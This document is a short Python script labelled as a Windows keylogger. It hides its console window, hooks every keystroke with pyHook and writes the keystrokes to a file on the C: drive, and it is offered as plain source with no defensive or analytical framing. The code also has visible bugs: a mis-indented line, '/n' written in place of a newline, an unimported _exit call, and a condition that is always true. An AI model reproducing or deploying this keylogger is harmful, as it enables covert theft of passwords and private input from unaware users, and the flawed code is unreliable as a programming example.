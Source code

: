 #Python code for keylogger
#to be used in windows
import win32api
import win32console
import win32gui
import pythoncom, pyHook

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
	if event.Ascii==5:
		_exit(1)
	if event.Ascii !=0 or 8:
	#open output.txt to read current keystrokes
		f = open('c:\output.txt', 'r+')
		buffer = f.read()
		f.close()
	#open output.txt to write current + new keystrokes
		f = open('c:\output.txt', 'w')
		keylogs = chr(event.Ascii)
		if event.Ascii == 13:
		keylogs = '/n'
		buffer += keylogs
		f.write(buffer)
		f.close()
#create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
#set the hook
hm.HookKeyboard()
#wait forever
pythoncom.PumpMessages()
